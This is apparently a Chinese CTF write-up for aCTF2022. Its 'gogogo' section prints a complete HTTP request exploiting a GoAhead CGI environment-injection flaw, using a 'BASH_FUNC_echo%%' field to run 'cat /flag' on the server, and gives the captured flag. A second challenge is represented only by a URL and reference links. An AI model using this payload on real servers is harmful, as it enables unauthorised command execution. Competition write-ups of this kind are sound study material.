 ```yaml
---
title: "aCTF2022 Wp"
slug: "actf2022-wp"
description: "拖了两周才复现完，罪过罪过"
date: 2022-07-07T13:48:05+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


## gogogo

下附件，src全是二进制文件，dockerfile得知是GoAhead，目测出网

http://123.60.84.229:10218/cgi-bin/hello可以看环境变量，显然是打GoAhead那个cve，尝试直接打iscc那个bash注入（换成劫持env）

```http
POST /cgi-bin/hello HTTP/1.1
Host: 123.60.84.229:10218
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylNDKbe0ngCGdEiPM
Content-Length: 184

------WebKitFormBoundarylNDKbe0ngCGdEiPM
Content-Disposition: form-data; name="BASH_FUNC_echo%%"
Content-Type: text/plain

() { cat /flag; }
------WebKitFormBoundarylNDKbe0ngCGdEiPM--

```

`ACTF{s1mple_3nv_1nj3ct1on_and_w1sh_y0u_hav3_a_g00d_tim3_1n_ACTF2022}`

- 最开始我脑子短路了，去劫持echo，还在想为什么是白屏啊（这不废话），然后还试了LD_PRELOAD传.so，令人感叹

## ToLeSion

http://123.60.131.135:10023

参考：[pycurl doc](http://pycurl.io/docs/latest/index.html)  |  [flask插件系列之flask_session会话机制 ](https://www.cnblogs.com/cwp-bg/p/9339865.html)  |  [Memcached stats 命令](https://www.runoob.com/memcached/memcached-stats.html)

